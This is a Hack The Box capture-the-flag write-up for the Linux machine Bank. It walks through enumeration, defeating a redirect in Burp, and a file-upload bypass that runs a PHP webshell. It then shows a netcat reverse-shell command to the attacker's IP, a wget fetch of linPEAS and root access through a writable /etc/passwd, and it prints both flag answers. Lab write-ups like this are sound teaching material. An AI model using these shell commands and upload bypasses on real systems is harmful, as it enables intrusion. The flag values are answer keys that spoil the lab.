# Hack The Box - Bank | Write-up

> **Platform:** Hack The Box &nbsp;•&nbsp; **Category:** Linux &nbsp;•&nbsp; **Difficulty:** Easy
>
> **Target:** `10.129.29.200` (bank.htb) &nbsp;•&nbsp; **Time taken:** 45 mins
>
> **Author:** Jithin Jelson

---

## Introduction

The box we will be trying to exploit today is Bank, it is an easy rated Linux machine on Hack The Box.

---

## Assessment Overview


```mermaid
flowchart LR
    A[nmap recon<br/>22 ssh · 53 dns<br/>80 http]:::entry --> B[vhost guess<br/>bank.htb<br/>added to /etc/hosts]:::intel
    B --> C[ffuf .php enum<br/>support.php<br/>login.php]:::intel
    C --> D[Burp match/replace<br/>302 to 200<br/>reveals My Tickets]:::payload
    D --> E[file upload form]:::payload
    E --> F[image filter bypass<br/>GIF8a magic bytes<br/>.htb runs as PHP]:::payload
    F --> G[RCE as www-data<br/>?cmd= webshell]:::user
    G --> U[read user.txt]:::ioc
    G --> H[reverse shell<br/>+ Python PTY]:::user
    H --> I[linPEAS finds<br/>writable /etc/passwd]:::mitre
    I --> J[add root line<br/>openssl passwd hash]:::payload
    J --> R[read root.txt]:::ioc

    classDef entry fill:#1d4ed8,stroke:#1e3a8a,color:#ffffff;
    classDef ioc fill:#0f766e,stroke:#134e4a,color:#ffffff;
    classDef intel fill:#7c3aed,stroke:#5b21b6,color:#ffffff;
    classDef mitre fill:#b45309,stroke:#78350f,color:#ffffff;
    classDef payload fill:#be123c,stroke:#881337,color:#ffffff;
    classDef user fill:#15803d,stroke:#14532d,color:#ffffff;
    linkStyle default stroke-width:2px
```

---

## What I Learned

- Leveraged Python's `pty.spawn()` to upgrade a raw `www-data` web shell into a fully interactive TTY for the first time, gaining job control and proper terminal handling.
- Established a reverse shell to a netcat listener, while noting the target flag was directly retrievable through the web shell, making the callback unnecessary in this case.
- Abused Burp Suite's Match and Replace rules to rewrite HTTP `302 Found` responses to `200 OK`, defeating the server-side redirect and forcing the hidden support endpoint and its file upload form to render client-side.
- Performed Linux privilege escalation by identifying and exploiting a world-writable `/etc/passwd`, injecting a crafted root entry, with reference to IppSec's methodology.

---

## Enumeration

We can start by running an Nmap scan with default scripts for all services.

```
nmap -sC -sV 10.129.29.200
```



*Figure 1 - Nmap shows SSH (22), DNS (53) and an Apache HTTP server (80) open.*

We find there is an HTTP port open which we can look into, additionally there is an SSH port and a DNS port which we can look into as well.

First we can head to our web host. We are greeted with the following page when we open it up. After this we tried to enumerate but we didn't get much useful information.



*Figure 2 - The web root just serves the default Apache2 Ubuntu page.*



*Figure 3 - Directory fuzzing against the raw IP only turns up the default index and the usual .ht* files.*

---

## Virtual Host Discovery

After getting stuck we looked for some help and it seems that a hostname `bank.htb` was to be guessed on this box and there was no real instruction telling us this, so we can open up our `/etc/hosts` and add this to our IP.



*Figure 4 - Mapping bank.htb to the target IP in /etc/hosts.*

---

## Web Application Enumeration

Now when we open up the page `bank.htb` we find the following.



*Figure 5 - The bank.htb vhost serves an HTB Bank login page.*

We attempted to use SQL injection in here for a while but we didn't come up with any success, so we decided to enumerate this new endpoint. Since we know the application uses PHP we can try and find this with our wordlist using the following payload.

```
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://bank.htb/FUZZ.php
```



*Figure 6 - ffuf finds support.php and login.php among the .php endpoints.*

We got a few hits so let's visit the support page. It seems like when we search for it, it redirects us to our index page.


*Figure 7 - Browsing to support.php bounces us straight back to the login page.*

---

## Revealing the Support Page (302 to 200)

Let's inspect this with Burp. We will try and intercept the response to this request to support.



*Figure 8 - Intercepting the GET /support.php request in Burp and sending it to Repeater.*

It seems like we get a redirect but the panel still shows us the content, so let's change the 302 to a 200 OK.



*Figure 9 - The 302 response still carries the full "My Tickets" HTML in its body.*

And we are able to see the following page.



*Figure 10 - Forcing the 200 renders the My Tickets page with a file upload form.*

This indicates to us that there is a file upload vulnerability for us to exploit, so we uploaded a PHP file but it turns out that it redirected us back to login after, so let's alter the setting to change all 302 Found to 200 OK. We can do this in the HTTP match or replace rules with our response header setting and press regex match.



*Figure 11 - A match/replace rule rewriting every "30[12] FOUND" response header to "200 OK".*

---

## File Upload Bypass to RCE

However when we tried to reupload our shell it seems we can only upload images, so there is probably some sort of image checker. We can send it to Repeater and try to tweak it slightly.

We started by adding the magic bytes `GIF8a` to trick the MIME checker into perceiving our image as a GIF and we changed our extension to be `.gif.php`, however this didn't work either but we got a useful message.



*Figure 12 - The upload is rejected, but the page source leaks a DEBUG comment: the .htb extension is set to execute as PHP.*

So if we run `.htb` we can run as `.htb`, so we can do this.



*Figure 13 - Re-uploading the payload as shell.htb succeeds, since the debug code runs .htb files as PHP.*

And this time it seems to work. Then we got a message notification and if we click on it we find the place our PHP script is stored, so we can use the address bar to get a shell now.



*Figure 14 - Hitting /uploads/shell.htb?cmd=id gives command execution as www-data.*

And we got our user shell.



> Read the user flag from `/home/chris/user.txt`.

**Answer:** `96f13fb1ed5d27156f2dfc160133d265`

*Figure 15 - Using the webshell to cat user.txt.*

---

## Reverse Shell

Now we can connect a reverse shell to our listener on our terminal and spawn a Python interface to get a clean shell.

```
http://bank.htb/uploads/shell.htb?cmd=nc%20-e%20/bin/sh%2010.10.15.110%204444
```



*Figure 16 - The nc listener catches the callback from the target.*

Now we can spawn a Python shell using:

```
python -c 'import pty;pty.spawn("/bin/bash")'
```



*Figure 17 - Upgrading to a stable TTY as www-data@bank.*

---

## Privilege Escalation to Root

Now we can enumerate using linPEAS. We started a Python server at 8000.

```
python3 -m http.server 8000
```

And then got the content onto our web shell from there:

```
wget -r 10.10.15.110:8000
```



*Figure 18 - Serving linpeas.sh over HTTP and pulling it onto the target.*

When our scan was complete we found we can write to `/etc/passwd`.



*Figure 19 - linPEAS flags /etc/passwd as writable by everyone.*

So we will write a simple string in an MD5 hash to root and then try to get root access that way.



*Figure 20 - Setting root's password field to an openssl-generated MD5 crypt hash (the plaintext here is "hello").*

And then we can navigate to our root flag.



> Read the root flag from `/root/root.txt`.

**Answer:** `d6a7befd92b86950f6270704c2f9bf73`

*Figure 21 - A root shell reads root.txt.*
